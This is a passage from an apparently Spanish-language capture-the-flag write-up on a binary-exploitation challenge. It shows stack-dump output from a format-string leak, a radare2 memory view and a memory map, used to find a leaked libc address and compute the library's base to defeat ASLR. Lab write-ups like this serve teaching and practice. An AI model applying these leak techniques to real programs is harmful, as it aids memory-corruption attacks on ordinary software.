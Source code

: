 ```
63: b'\x00\x00\x00\x00\x01\x00\x00\x00' 0x100000000
64: b'\xb8\x0f\xb0\xf5\xfe\x7f\x00\x00' 0x7ffef5b00fb8
65: b'\x00\x00\x00\x00\x00\x00\x00\x00' 0x0
66: b'\xa6(6\xad)O5\xc9' 0xc9354f29ad3628a6
67: b'\xb8\x0f\xb0\xf5\xfe\x7f\x00\x00' 0x7ffef5b00fb8
68: b'z\x13@\x00\x00\x00\x00\x00' 0x40137a
69: b'\x18>@\x00\x00\x00\x00\x00' 0x403e18
70: b'@ ]gW\x7f\x00\x00' 0x7f57675d2040
71: b'\xa6(T\xb0I\xa4\xc86' 0x36c8a449b05428a6
72: b'\xa6(\xbc\x97l\x81\x9b7' 0x379b816c97bc28a6
73: b'\x00\x00\x00\x00W\x7f\x00\x00' 0x7f5700000000
74: b'\x00\x00\x00\x00\x00\x00\x00\x00' 0x0
75: b'\x00\x00\x00\x00\x00\x00\x00\x00' 0x0
76: b'\x00\x00\x00\x00\x00\x00\x00\x00' 0x0
77: b'\x00\x00\x00\x00\x00\x00\x00\x00' 0x0
78: b'\x00\x07\xc4\xa2\xa7\x81\xf9\xcc' 0xccf981a7a2c40700
79: b'\x00\x00\x00\x00\x00\x00\x00\x00' 0x0
80: b'@\x9e"gW\x7f\x00\x00' 0x7f5767229e40
81: b'\xc8\x0f\xb0\xf5\xfe\x7f\x00\x00' 0x7ffef5b00fc8
82: b'\x18>@\x00\x00\x00\x00\x00' 0x403e18
83: b'\xe02]gW\x7f\x00\x00' 0x7f57675d32e0
84: b'\x00\x00\x00\x00\x00\x00\x00\x00' 0x0
85: b'\x00\x00\x00\x00\x00\x00\x00\x00' 0x0
86: b'\xd0\x10@\x00\x00\x00\x00\x00' 0x4010d0
87: b'\xb0\x0f\xb0\xf5\xfe\x7f\x00\x00' 0x7ffef5b00fb0
88: b'\x00\x00\x00\x00\x00\x00\x00\x00' 0x0
89: b'\x00\x00\x00\x00\x00\x00\x00\x00' 0x0
```

En la offset 60 hay una dirección filtrada de libc. Si vemos el mapa de la memoria y buscamos la dirección base de libc en la GOT y calculamos el desplazamiento tendremos la dirección base en ejecución del programa:

```
[0x0040146c]> pxQ @ rsp + 0x168
0x7ffc8981fe08 0x7030312570303125 
0x7ffc8981fe10 0x7030312570303125 
0x7ffc8981fe18 0x7030312570303125 
0x7ffc8981fe20 0x7030312570303125 
0x7ffc8981fe28 0x000000000000000a section.+10
0x7ffc8981fe30 0x0000000000000000 section.
0x7ffc8981fe38 0x0000000000000000 section.
0x7ffc8981fe40 0x000000000000000a section.+10
0x7ffc8981fe48 0x96d00259e857ad00 
0x7ffc8981fe50 0x0000000000000001 section.+1
0x7ffc8981fe58 0x00007fde7aa29d90                 <--- offset 60
```

```
dm
0x00000000003fe000 - 0x00000000003ff000 - usr     4K s rw- /home/kalcast/Descargas/reverb/chall /home/kalcast/Descargas/reverb/chall ; segment.ehdr
0x0000000000400000 - 0x0000000000401000 - usr     4K s r-- /home/kalcast/Descargas/reverb/chall /home/kalcast/Descargas/reverb/chall
0x0000000000401000 - 0x0000000000402000 * usr     4K s r-x /home/kalcast/Descargas/reverb/chall /home/kalcast/Descargas/reverb/chall ; map._home_kalcast_Descargas_reverb_chall.r_x
0x0000000000402000 - 0x0000000000403000 - usr     4K s r-- /home/kalcast/Descargas/reverb/chall /home/kalcast/Descargas/reverb/chall ; map._home_kalcast_Descargas_reverb_chall.r__
0x0000000000403000 - 0x0000000000404000 - usr     4K s r-- /home/kalcast/Descargas/reverb/chall /home/kalcast/Descargas/reverb/chall ; map._home_kalcast_Descargas_reverb_chall.rw_
0x0000000000404000 - 0x0000000000405000 - usr     4K s rw- /home/kalcast/Descargas/reverb/chall /home/kalcast/Descargas/reverb/chall ; obj._GLOBAL_OFFSET_TABLE_
0x00007fde7aa00000 - 0x00007fde7aa28000 - usr   160K s r-- /home/kalcast/Descargas/reverb/libc.so.6 /home/kalcast/Descargas/reverb/libc.so.6           <---- libc base de la depuracion actual
```
